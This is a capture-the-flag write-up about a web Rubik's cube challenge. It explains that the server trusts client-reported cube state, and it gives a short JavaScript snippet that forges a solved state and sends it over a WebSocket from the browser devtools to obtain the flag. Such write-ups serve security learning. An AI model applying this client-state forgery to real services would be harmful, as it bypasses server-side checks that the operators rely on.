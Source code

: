 ### Given a rubric game and solve it to get the flag 

![can u](/assets/img/angkasa.png)

### 🎯 CORE VULNERABILITY:
 Server blindly trusts client's cube
 state without validation

```
 // Client-side checks
getCurrentCubeState()  // Reads DOM colors
checkSolution()        // Checks if solved
  → If solved: socket.emit("cubeState", solvedData)
```
**✅ Frontend controls cube state reporting**

**✅ Backend doesn't verify moves or actual solution**

**✅ Server trusts whatever cubeState client sends**

## 🚩 EXPLOITATION METHOD:
**Step-by-Step Bypass:**
**Don't solve the cube - Skip the actual puzzle**

**Forge fake solved state - Create JSON with all uniform colors**

**send directly via WebSocket:**

```
// Construct a solved cube state
const solvedCubeState = {
    front: Array(9).fill('blue'),
    back: Array(9).fill('green'), 
    left: Array(9).fill('white'),
    right: Array(9).fill('yellow'),
    top: Array(9).fill('orange'),
    bottom: Array(9).fill('red')
};

// Emit solved state to the server
if (socket) {
    socket.emit('cubeState', solvedCubeState);
}

// Check solution to trigger flag
checkSolution();
```
Run this code on devtools and get the flag.

![can u](/assets/img/muzaffar.png)












